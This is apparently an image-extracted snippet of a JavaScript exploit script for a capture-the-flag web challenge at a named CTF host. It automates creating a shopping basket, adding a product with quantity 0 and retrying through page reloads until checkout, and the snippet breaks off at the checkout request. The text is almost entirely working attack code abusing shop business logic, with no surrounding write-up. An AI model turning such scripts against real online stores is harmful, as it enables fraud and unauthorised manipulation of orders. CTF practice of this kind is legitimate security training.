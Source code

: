 ```python

                // --- Main Exploit Logic ---
                (async () => {
                  const BASE = "https://waffles.challs.brunnerne.xyz";
                  let session_id;
                  
                  try {
                    const progress = getProgress();
                    let currentStep = progress ? progress.step : 'createBasket';
                    session_id = progress ? progress.sessionId : null;
                    
                    document.querySelector('h1').textContent = `Exploit Running... (State: ${currentStep})`;
                    if (progress) {
                        logToPage(`[!] Resuming from saved progress at step: ${currentStep}`);
                    }

                    // STEP 1: Create Basket
                    if (currentStep === 'createBasket') {
                        logToPage("[*] Step 1: Creating basket...");
                        const response = await fetch(`${BASE}/api/basket`, { method: "POST" });
                        if (!response.ok) throw new Error(`Failed to create basket: ${response.status}`);
                        
                        // ===== THE CRITICAL FIX IS HERE =====
                        // The server returns the ID as a JSON string (e.g., "id-value").
                        // .json() correctly decodes this, while .text() would include the quotes.
                        session_id = await response.json();
                        
                        logToPage(`[*] New Session ID: ${session_id}`);
                        currentStep = 'addProduct';
                    }

                    // STEP 2: Add Product
                    if (currentStep === 'addProduct') {
                        logToPage(`[*] Step 2: Adding product with quantity 0...`);
                        const response = await fetch(`${BASE}/api/basket/add`, {
                          method: "POST",
                          headers: { "X-Session-ID": session_id, "Content-Type": "application/json" },
                          body: JSON.stringify({ product_id: 1, quantity: 0 })
                        });

                        if (response.status === 400) {
                            logToPage('[!] Received status 400. Saving progress and reloading page...');
                            setProgress('addProduct', session_id);
                            location.reload();
                            return; // Stop execution to allow page reload
                        }
                        if (!response.ok) throw new Error(`Failed to add product: ${response.status}`);
                        
                        const basket = await response.json();
                        logToPage("[+] Product added successfully. Basket state:");
                        logToPage(basket);
                        currentStep = 'checkout';
                    }

                    // STEP 3: Checkout
                    if (currentStep === 'checkout') {
                        logToPage(`[*] Step 3: Checking out...`);
                        const response = await fetch(`${BASE}/api/checkout`, {
```